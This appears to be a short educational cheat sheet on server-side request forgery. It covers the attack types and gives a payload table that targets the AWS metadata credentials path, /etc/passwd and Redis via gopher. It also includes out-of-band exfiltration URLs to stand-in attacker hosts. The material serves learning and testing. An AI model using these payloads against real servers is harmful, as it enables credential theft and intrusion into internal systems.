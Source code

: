 An attacker can manipulate the server into making requests to internal or unauthorized resources, potentially exposing sensitive data or accessing internal services.

# Types of SSRF

* **Basic SSRF**: Directly manipulating the URL in the request.

* **Blind SSRF**: Response is not visible to the attacker, but impact can still be inferred.

* **Chained SSRF**: SSRF used to pivot into internal systems.

## 1\. Basic SSRF

Attacker inputs: [http://127.0.0.1/admin](http://127.0.0.1/admin)  
App fetches internal resource.

## 2\. Blind SSRF

No direct response shown, but:

* Logs leak request

* DNS interaction observed

* Side effects occur (e.g., new user created)

 Use Burp Collaborator, dnslog.cn to detect.

## 3\. Out-of-Band SSRF

Exfiltrate metadata or token:  http://attacker.com/?token=\<response\>

 

## 4: Protocol-Based SSRF

Use different protocols:

* file:// → read local files

* dict:// → DoS or SSRF probes

* gopher:// → RCE via Redis injection

* ftp://, ldap:// → trigger memory leak or info disclosure

# Payload Examples

| Target | Payload |
| :---- | :---- |
| AWS Metadata | http://169.254.169.254/latest/meta-data/iam/security-credentials/ |
| Localhost Admin | http://localhost/admin |
| DNS Exfil | http://attacker.dnslog.cn |
| File Read | file:///etc/passwd |
| Gopher (Redis) | gopher://127.0.0.1:6379/\_POST /evil |
